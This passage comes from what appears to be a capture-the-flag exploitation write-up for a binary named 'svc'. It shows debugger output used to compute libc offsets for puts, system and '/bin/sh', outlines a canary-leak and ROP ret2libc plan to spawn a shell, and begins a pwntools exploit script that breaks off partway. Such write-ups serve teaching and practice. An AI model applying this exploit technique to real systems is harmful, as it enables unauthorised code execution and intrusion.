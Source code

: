 Here we can see that the libc file is `/lib/x86_64-linux-gnu/libc-2.23.so`. Now there are three offsets we need to find from the base of libc. Those are for `system`, `puts` (we will subtract this offset from the libc puts address to get it's base), and the string `/bin/sh`. We can do that by hand with a bit. First grab the addresses of the things we need in memory:

```
gef➤  p puts
$1 = {<text variable, no debug info>} 0x7ffff76fa690 <_IO_puts>
gef➤  p system
$2 = {<text variable, no debug info>} 0x7ffff76d0390 <__libc_system>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/lib/x86_64-linux-gnu/libc-2.23.so'(0x7ffff768b000-0x7ffff784b000), permission=r-x
  0x7ffff7817d57 - 0x7ffff7817d5e  →   "/bin/sh" 
```

Then subtract the base address of the memory region from the addresses to get the offset:
```
>>> hex(0x7ffff76fa690 - 0x00007ffff768b000)
'0x6f690'
>>> hex(0x7ffff76d0390 - 0x00007ffff768b000)
'0x45390'
>>> hex(0x7ffff7817d57 - 0x00007ffff768b000)
'0x18cd57'
```

One last thing I need to say about this exploit. I mentioned earlier that our strategy is to first leak the stack canary, then overflow the return address with a simple ROP chain that will give us a libc infoleak, then loop back around to the start of menu so we can re-exploit the bug with a libc infoleak. When we re-exploit it a second time, we will use the libc infoleak to just call `system` with the argument `/bin/sh` (both in the libc) to give us a shell. The particular address we will loop back to will be `0x400a96` (the start of `menu`), sometimes it's a bit more tricky than that but not now.

Putting it all together, we get the following exploit:
```
# Import pwntools
from pwn import *

target = process("./svc")
gdb.attach(target)

elf = ELF('svc')


# 0x0000000000400ea3 : pop rdi ; ret
popRdi = p64(0x400ea3)

gotPuts = p64(0x602018)
pltPuts = p64(0x4008cc)

offsetPuts = 0x6f690
offsetSystem = 0x45390
offsetBinsh = 0x18cd57
#offsetPuts = 0x83cc0
#offsetSystem = 0x52fd0
#offsetBinsh = 0x1afb84

startMain = p64(0x400a96)

# Establish fucntions to handle I/O with the target
def feed(data):
  print target.recvuntil(">>")
  target.sendline('1')
  print target.recvuntil(">>")
  target.send(data)
```